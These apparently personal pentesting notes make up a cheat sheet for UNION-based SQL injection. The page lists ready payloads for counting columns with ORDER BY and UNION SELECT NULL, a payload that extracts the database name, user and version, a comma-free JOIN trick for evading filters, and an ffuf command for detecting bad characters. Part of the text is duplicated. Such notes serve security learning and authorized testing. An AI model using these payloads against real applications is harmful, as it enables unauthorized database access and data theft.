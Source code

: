 ### UNION

{% code overflow="wrap" fullWidth="true" %}
```bash
UNION SQLi attack consists of 3 stages:
1. You need to determine the number of columns you can retrieve.
2. You make sure that the columns you found are in a suitable format
3. Attack and get some interesting data.


# SQL injection UNION attacks
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
# We need to know: 
- number of columns of the original query
- which of those have suitable data type for our injected query
# Determine number of columns 
' ORDER BY 1--
' ORDER BY 2--# SQL injection UNION attacks
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
# We need to know: 
- number of columns of the original query
- which of those have suitable data type for our injected query
# Determine number of columns 
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
=1 UNION ALL SELECT
1 UNION SELECT
0 union select null,null,null
-1 union select null,null,null
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT NULL#
' UNION SELECT NULL//
' UNION SELECT NULL/*
etc.
​

############### Bypassing filters (UNION without commas because , are badchars)
(SELECT * FROM (SELECT 1) AS A JOIN (SELECT 2) AS B JOIN (SELECT 3) AS C)
# NOTE: Try %20 as well as + for URL encoding, maybe one of them it works and the other does not

# DETECT BADCHARS
- Copy the request to a file
- Add FUZZ -> GET /user/ippsec'--%20-FUZZ/
ffuf -request user.req -request-proto http -w special-chars.txt'
# The result 200 status code are good characters and the rest are considered badchars

# Join works as the comma for the union injection and the 3 selects means the query return 3 columns 
' UNION (SELECT * FROM (SELECT 1) AS A JOIN (SELECT 2) AS B JOIN (SELECT 3) AS C)


'####### Database-specific syntax
' UNION SELECT NULL FROM DUAL-- 
https://portswigger.net/web-security/sql-injection/cheat-sheet
'
# Finding columns with a useful data type
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
```